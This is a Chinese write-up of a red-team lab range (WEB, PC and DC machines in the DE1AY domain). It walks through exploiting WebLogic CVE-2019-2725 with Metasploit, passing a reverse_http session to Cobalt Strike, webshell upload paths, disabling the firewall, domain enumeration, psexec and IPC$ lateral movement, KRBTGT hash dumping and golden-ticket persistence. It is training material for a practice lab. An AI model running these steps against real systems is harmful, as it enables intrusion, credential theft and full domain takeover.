# 环境搭建

拓扑图


## 配置内外网环境

### 域控DC

靶机密码：1qaz@WSX

配置一块网卡





### PC

登陆密码：1qaz@WSX

两块网卡，一块NAT，一块和DC一样





### WEB

默认密码登陆不上去，点击切换用户登陆de1ay账户，密码：1qaz@WSX

两块网卡，一块NAT，一块和DC一样



如果遇到工作站与域信任关系失败的话，重新解压一下DC

- DC

  IP：10.10.10.10
  OS：Windows 2012
  应用：AD域

- WEB（初始的状态默认密码无法登录，切换用户 de1ay/1qaz@WSX 登录进去）

  IP1：10.10.10.80
  IP2：192.168.111.80
  OS：Windows 2008
  应用：Weblogic 10.3.6 MSSQL 2008

- PC

  IP1：10.10.10.201
  IP2：192.168.111.201
  OS：Windows 7

- 攻击机

  IP：192.168.111.128
  OS：Kali

  

先从WEB机开始，注意需要手动开启服务，在 C:\Oracle\Middleware\user_projects\domains\base_domain\bin 下有一个 startWeblogic 的批处理，管理员身份运行它即可，管理员账号密码：Administrator/1qaz@WSX

WEB机和PC机：计算机右键->管理->配置->服务->Server、Workstation、Computer Browser 全部启动（Computer Browser 一直自动关闭导致 net view 显示 6118 error 没能解决，在域信息收集时暂时关闭一下防火墙）

由于DMZ网段为192.168.111.0/24，所以需要将子网ip设置为192.168.111.0


# 外网渗透

## 信息收集


对192.168.111.80进行端口扫描

`nmap -sS -sV 192.168.111.80` (-sS半开放扫描，执行快效率高 -v在扫描过程中显示扫描细节)

`nmap -sS -sV ip` -sS 使用SYN半开式扫描，又称隐身扫描 -sV 服务探测



通过扫描端口，我们通过端口初步判断目标机存在的服务及可能存在的漏洞，如445端口开放就意味着存smb服务，存在smb服务就可能存在ms17-010/端口溢出漏洞。开放139端口，就存在Samba服务，就可能存在爆破/未授权访问/远程命令执行漏洞。开放1433端口，就存在mssql服务，可能存在爆破/注入/SA弱口令。开放3389端口，就存在远程桌面。开放7001端口就存在weblogic

这里web层在7001开放了weblogic

用weblogicscan扫一下（https://github.com/rabbitmask/WeblogicScan）



发现了后台地址，和CVE-2017-3506和CVE-2019-2725漏洞


## 漏洞利用

msf中寻找CVE-2019-2725


```
set lhost 192.168.111.128
set lport 2333
set rhost 192.168.111.80
set target 1	(默认为0，是unix)
```


收到shell

## MSF联动CS上线

CS监听设置



```
background
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true
set lhost 192.168.111.129
set lport 9999
set session 1
run
```

开始用的2020的kali，是msf5，有一点问题的，话，后面我换了一台msf6的机子，所以ip变了


上线成功

## 上传冰蝎马上线CS

冰蝎马主要是一个路径写入的问题

https://www.cnblogs.com/sstfy/p/10350915.htm

weblogic上传木马路径选择：[weblogic上传路径](https://www.shuzhiduo.com/A/gVdnpR2QJW/)

方法1：把shell写到控制台images目录中:

```
\Oracle\Middleware\wlserver_10.3\server\lib\consoleapp\webapp\framework\skins\wlsconsole\images\shell.jsp              //目录上传木马

访问 http://*.*.*.*:7001/console/framework/skins/wlsconsole/images/shell.jsp
```

方法2：写到uddiexplorer目录中

```
\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\uddiexplorer\随机字符\war\shell.jsp   //目录写入木马，

访问 http://*.*.*.*:7001/uddiexplorer/shell.jsp
```

方法3：在应用安装目录中

```
\Oracle\Middleware\user_projects\domains\application\servers\AdminServer\tmp\_WL_user\项目名\随机字符\war\shell.jsp   //目录写入木马，

访问 http://*.*.*.*:7001/项目名/shell.jsp
```

不过这里通过冰蝎马去上传CS马会遇到360的杀软，所以还是用MSF去上线CS比较好

这里weblogic是通过管理员权限去运行的，whoami看到就是admin用户


## CS提权

新建一个监听器


在上线的回话右键，access->evevate




提权到了system

# 内网渗透

## 信息收集

```
查看基本信息shell ipconfig /all，发现机器有双网卡，内网 10.10.10.1/24 网段，DNS服务器10.10.10.10，也就是域控
关闭防火墙netsh advfirewall set allprofiles state off
查看有几个域net view /domain
查看域名net config workstation
查看域内主机net view
查询域内用户net user /domain
查看域管理员net group "domain admins" /domain  
内端口扫描portscan 10.10.10.0/24 445 arp 200
```




内网扫描，利用cs的port scan

```
beacon> portscan 10.10.10.0-10.10.10.255 1-1024,3389,5000-6000 arp 1024
[*] Tasked beacon to scan ports 1-1024,3389,5000-6000 on 10.10.10.0-10.10.10.255
[+] host called home, sent: 75365 bytes
[+] received output:
(ARP) Target '10.10.10.10' is alive. 00-0C-29-4E-20-BD

[+] received output:
(ARP) Target '10.10.10.80' is alive. 00-0C-29-68-D3-69

[+] received output:
(ARP) Target '10.10.10.201' is alive. 00-0C-29-9E-7B-7A

[+] received output:
10.10.10.201:3389

[+] received output:
10.10.10.201:139
10.10.10.201:135

[+] received output:
10.10.10.80:3389

[+] received output:
10.10.10.80:139
10.10.10.80:135
10.10.10.80:80

[+] received output:
10.10.10.10:5985

[+] received output:
10.10.10.10:3389

[+] received output:
10.10.10.10:636

[+] received output:
10.10.10.10:593

[+] received output:
10.10.10.10:464

[+] received output:
10.10.10.10:389

[+] received output:
10.10.10.10:139
10.10.10.10:135
10.10.10.10:88

[+] received output:
10.10.10.10:53

[+] received output:
10.10.10.10:445 (platform: 500 version: 6.3 name: DC domain: DE1AY)
10.10.10.80:445 (platform: 500 version: 6.1 name: WEB domain: DE1AY)
10.10.10.201:445 (platform: 500 version: 6.1 name: PC domain: DE1AY)
Scanner module is complete
```

发现了PC和DC两台主机，且都开启了445端口

这里cs上的view-targets都有记录



## 横向移动

抓取密码


创建一个smb的监听器



然后利用psexec横向移动

psexec 是微软 pstools 工具包中最常用的一个工具，也是在内网渗透中的免杀渗透利器。psexec 能够在命令行下在对方没有开启 telnet 服务的时候返回一个半交互的命令行，像 telnet 客户端一样。原理是基于IPC共享，所以要目标打开 445 端口。另外在启动这个 psexec 建立连接之后对方机器上会被安装一个服务。


用抓取的密码登陆


登陆成功


同样地连上了PC


## IPC连接

IPC(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限,在远程管理计算机和查看计算机的共享资源时使用

建立IPC$连接上传木马 建立后可以访问目标机器的文件(上传、下载)，也可以在目标机器上运行命令。上传和下载文件直接通过copy命令就可以，不过路径换成**UNC路径**。

```
常用命令:

net use \\ip\ipc$ passord /user:username      建立IPC连接

copy hacker.exe \\10.10.10.10\C$\windows\temp   复制本地文件到目标服务器

copy \\10.10.10.10\C$\windows\temp\hash.txt    复制目标服务器文件到本地
```

这个也是一种上线的方式，通过msf生成payload.exe，然后通过IPC上传，运行，达到上线的目的

https://www.cnblogs.com/yokan/p/14189154.html

# 权限维持

## 域控信息收集


通过`hashdump`，抓取到了KRBTGT账户NTLM密码哈希，即`82df......`

然后利用logonpasswords获取域的sid


## 黄金票据

黄金票据是伪造票据授予票据（TGT），也被称为认证票据。TGT仅用于向域控制器上的密钥分配中心（KDC）证明用户已被其他域控制器认证。

黄金票据的条件要求：

1.域名称

2.域的SID值

3.域的KRBTGT账户NTLM密码哈希

4.伪造用户名

黄金票据可以在拥有普通域用户权限和KRBTGT账号的哈希的情况下用来获取域管理员权限，上面已经获得域控的 system 权限了，还可以使用黄金票据做权限维持，当域控权限掉后，在通过域内其他任意机器伪造票据重新获取最高权限。

WEB机 Administrator 权限机器->右键->Access->Golden Ticket


伪造成功，在web机上执行`shell dir \\DC\C$`可以访问域控下的C盘了


参考链接

[ATT&CK红队评估实战靶场（二） | Y0ng的博客 (yongsheng.site)](http://www.yongsheng.site/2021/03/28/ATT&CK红队评估实战靶场（二）/)

https://blog.csdn.net/weixin_54648419/article/details/122759153

https://www.cnblogs.com/yokan/p/14189154.html

https://blog.csdn.net/qq_36241198/article/details/115604073

https://blog.csdn.net/weixin_42936566/article/details/86555918
